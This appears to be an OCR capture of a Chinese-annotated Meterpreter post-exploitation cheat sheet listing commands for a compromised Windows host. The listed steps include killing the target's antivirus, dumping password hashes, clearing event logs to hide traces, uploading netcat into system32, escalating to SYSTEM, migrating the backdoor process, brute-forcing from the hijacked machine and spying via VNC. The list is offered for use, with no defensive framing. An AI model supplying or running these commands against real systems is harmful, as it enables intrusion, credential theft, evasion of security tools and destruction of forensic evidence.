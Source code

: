 ```shell
杀掉目标机的杀毒软件

#bgrun post/multi/gather/wlan_geolocate


#bgrun post/windows/gather/arp_scanner


#bgrun hashdump
哈希值

bgrun service_manager -I
查看已有的服务

#bgrun vnc
监控主机

#bgrun winbf
让肉鸡来暴力破解

#clearev
清除目标的日志，清理战场

#download
下载文件

#upload /usr/share/windows-binaries/nc.exe c:\\windows\\system32
上传文件

#dir widnows\\system32\nc.exe
dir 等同 ls 命令

#execute -f cmd.exe -I -H


#getuid

#getsystem
把自己变成system权限

#getprivs
看系统有什么权限

#getproxy
获取代理信息

#getpid
查看进程信息

#getpid/ps/migrate 1560
迁移后门进程

#hashdump=run post/windows/gather/hashdump

#sysinfo

#kill 1052
kill 进程

#shell

#show_mount

```
